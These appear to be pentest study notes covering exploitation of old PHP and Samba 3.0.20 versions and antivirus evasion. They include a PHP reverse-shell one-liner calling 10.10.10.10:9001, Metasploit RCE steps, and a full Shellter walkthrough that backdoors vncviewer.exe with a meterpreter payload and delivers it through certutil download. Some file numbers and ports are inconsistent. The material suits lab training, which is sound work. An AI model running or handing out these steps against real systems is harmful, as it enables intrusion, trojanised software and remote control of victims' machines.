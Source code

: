 **PHP**:

- If a webserver is Apache, we can check *http://<ip>/phpinfo.php* - for the **version** info
- `searchsploit php <version>` - versions under **5.3.12** are vulnerable to a command injection
- `searchsploit -m 18336`
- `nano [18836.py](http://18836.py)` - changing `pwn_code` line to a php reverse shell executable (`<?php $sock=fsockopen("**10.10.10.10**",**9001**);exec("**sh** <&4 >&4 2>&4");?>`)
- `nc -nlvp 1234`
- `python2 18836.py <ip> <port>`

**SAMBA**:

- `msf6 > use smb_version` - gives the exact version of SMB (very useful)
- `searchsploit samba 3.0.20`
- `msf6 > use samba/usermap_script` - RCE for the version 3.0.20
- `msf6 > sessions -u 1` - for a meterpreter session (upgrading)

### Evasion

The use of various tools to avoid AV detection.

There are some **AV Detection techniques**:

1. Signature based: AV tools have malware signature (code - hash that are extracted from malware) databases. When they are analyzing malicious code, they compare it to their signatures. It can be bypassed via changing the malware’s byte sequence (signature).
2. Heuristic-based: Some rules and decisions (analyzes the code)
3. Behaviour based: Monitoring malware’s behaviour (what does the malware access when it runs, etc)

**Evasion techniques:**

On-disk obfuscation:

- Obfuscation - Concealing our payload
- Encoding - changing the data format (then can be decrypted)
- Packing - genrating our payload with new binary structure and changing its signature
- Crypters - Encrypts the payload then decrypts in the memory

In-memory obfuscation:

- Injection shellcode into a running process. A payload is only present in RAM not in SSD

**Shellter**:

Used for **injecting** shellcode (payloads) into Windows applications.

Shellter is a PE (Portable Executable), but we can use **`wine**32` bit for execute this on Unix.

- `cp /usr/share/windows-binaries/vncviewer.exe .`
- `shellter` then `A` for Auto then `/home/user/vncviewer.exe` for the path of the executable then `Y` for enabling stealth mode like -k in msfvenom (keeping the functionality of the executable) then `L` for listed payloads then `1` for meterpreter/reverse_tcp then `LHOST` and `LPORT`
- Our `vncviewer.exe` has become malicious! (contains the payload)
- `python -m http.server 80`
- `certuril -urlcache -f http://<local.ip>/vncviewer.exe vncviewer.exe` - On a Windows target
- `msf6> use multi/handler`
- `.\vncviewer.exe` on the target will work properly like the **real** vncviewer, but the attacker will get a `meterpreter >` shell
